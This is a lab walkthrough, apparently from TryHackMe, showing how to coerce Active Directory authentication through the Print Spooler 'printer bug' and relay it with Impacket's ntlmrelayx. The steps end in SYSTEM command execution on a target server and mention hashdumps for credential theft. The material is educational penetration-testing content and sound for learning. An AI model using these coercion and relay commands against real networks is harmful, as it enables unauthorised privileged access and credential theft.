 # Exploiting Automated Relays in Active Directory

In this task, we explore automated relays in Active Directory (AD). Authentication attempts are constantly occurring across the network. As shown in the Breaching AD room, intercepting these challenges can grant access. But what if we could coerce authentication to occur, rather than waiting?

Even if we already have privileged access to `THMSERVER1`, there may be situations where a constrained delegation exploit is unavailable. Automated relays provide another effective attack vector for gaining privileged access to hosts.

---

## Machine Accounts

- **All Windows hosts have a machine account**: This is the user account associated with the machine.
- **Password characteristics**: By default, machine account passwords are 120 characters (UTF16) and rotate every 30 days.
- **Usage in AD**: Machine accounts are used by services like domain controllers for AD synchronization and certificate requests.

### Administrative Relationships

Sometimes, one machine has admin rights over another (e.g., domain controllers, SQL clusters). These relationships can be exploited for authentication coercion.

#### Identifying Admin Relationships

Use Bloodhound to find cases where a machine account has admin access over another:

```cypher
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

This query finds instances where a computer has the `AdminTo` relationship over another. For example, `THMSERVER2` may have admin privileges over `THMSERVER1`.

---

## The Printer Bug

> "It's not a bug, it's a feature." — Microsoft

The "printer bug" is a feature of the MS-RPRN protocol (PrintSystem Remote Protocol), allowing a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address. Notable bugs include Spooler, PetitPotam, and PrintNightmare.

### Exploitation Requirements

To exploit this, you need:

1. **Valid AD account credentials**
2. **Network connectivity to the target's SMB service**
3. **Target host running the Print Spooler service**
4. **SMB signing not enforced**

Assume conditions 1 and 2 are met. Let's check the remaining conditions.

---

### Checking the Print Spooler Service

Query the service state from the network using WMI from `THMWRK1`:

```powershell
PS C:\> GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```

Sample output:

```
Location      :
Name          : Microsoft XPS Document Writer
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2

Location      :
Name          : Microsoft Print to PDF
PrinterState  : 0
PrinterStatus : 3
ShareName     :
SystemName    : THMSERVER2
```

If access is denied, try:

```powershell
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
```

If both fail, proceed with caution.

---

### Checking SMB Signing

SMB signing should not be enforced. Use Nmap to verify:

```bash
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```

Sample output:

```
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
```

If signing is enabled but not required, you can proceed.

---

## Exploiting Authentication Relays

> **Note:** This attack can be unstable. The Print Spooler service may crash, and a callback is not guaranteed.

### Tools Used

- **SpoolSample**: C# exploit (precompiled at `C:\Tools\` on `THMWRK1`)
- **Impacket's ntlmrelayx.py**: For relaying authentication

### Steps

1. **Set up NTLM relay on your AttackBox:**

    ```bash
    python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
    ```

    > Use the IP address, not the hostname, to avoid Kerberos fallback.

2. **Coerce authentication from `THMSERVER2`:**

    ```cmd
    C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
    ```

    Replace `"Attacker IP"` with your tunX interface IP.

3. **Observe the relay output:**

    ```bash
    python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
    ```

    Example output:

    ```
    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
    [*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
    [+] No more targets
    ...
    USER INFORMATION
    ----------------
    User Name           SID
    =================== ========
    nt authority\system S-1-5-18
    ...
    ```

    If no command is specified, a hashdump may be performed, allowing credential extraction for further exploitation.

---

**Summary:**  
By coercing authentication using the Print Spooler service and relaying it with Impacket, you can gain privileged access to target hosts in AD environments, provided the necessary conditions are met.
